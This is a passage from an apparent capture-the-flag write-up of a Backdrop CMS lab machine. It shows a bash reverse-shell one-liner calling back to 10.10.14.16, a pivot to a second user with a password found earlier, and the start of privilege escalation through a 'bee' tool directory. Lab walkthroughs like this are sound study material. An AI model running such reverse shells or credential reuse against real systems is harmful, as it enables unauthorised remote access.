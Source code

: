 An then I uploaded it:

![](Pasted%20image%2020250310105517.png)

![](Pasted%20image%2020250310105631.png)

Then I executed this command to get cli RCE:

```shell
bash -c 'bash -i >& /dev/tcp/10.10.14.16/666 0>&1'
```

![](Pasted%20image%2020250310105755.png)

## Pivoting

Inspecting the `/home` I noticed two different users: `johncusack` and `jobert`. I tried the previous found passwords in both accounts. It worked with: `johncusack:BackDropJ2024DS2024`

### User flag

![](Pasted%20image%2020250310110248.png)

## Privilege Escalation

Inspecting the `/` directory i noticed a folder called `backdrop_tool`:

```shell
ls -la /backdrop_tool/bee/

total 96
drwxr-xr-x 9 root root  4096 Jul  9  2024 .
drwxr-xr-x 3 root root  4096 Jul  9  2024 ..
-rw-r--r-- 1 root root 10606 Jul  9  2024 API.md
-rwxr-xr-x 1 root root  2905 Jul  9  2024 bee.php
-rw-r--r-- 1 root root   173 Jul  9  2024 box.json
-rw-r--r-- 1 root root  3277 Jul  9  2024 CHANGELOG.md
drwxr-xr-x 2 root root  4096 Jul  9  2024 commands
-rw-r--r-- 1 root root  3840 Jul  9  2024 CONTRIBUTING.md
drwxr-xr-x 8 root root  4096 Jul  9  2024 .git
drwxr-xr-x 4 root root  4096 Jul  9  2024 .github
-rw-r--r-- 1 root root    92 Jul  9  2024 .gitignore
drwxr-xr-x 2 root root  4096 Jul  9  2024 images
drwxr-xr-x 2 root root  4096 Jul  9  2024 includes
drwxr-xr-x 2 root root  4096 Jul  9  2024 .lando
-rw-r--r-- 1 root root  2345 Jul  9  2024 .lando.yml
-rw-r--r-- 1 root root 18092 Jul  9  2024 LICENSE.txt
-rw-r--r-- 1 root root  2947 Jul  9  2024 README.md
drwxr-xr-x 4 root root  4096 Jul  9  2024 tests
```

I noticed an executable called `bee.php`, so I inspected its content:
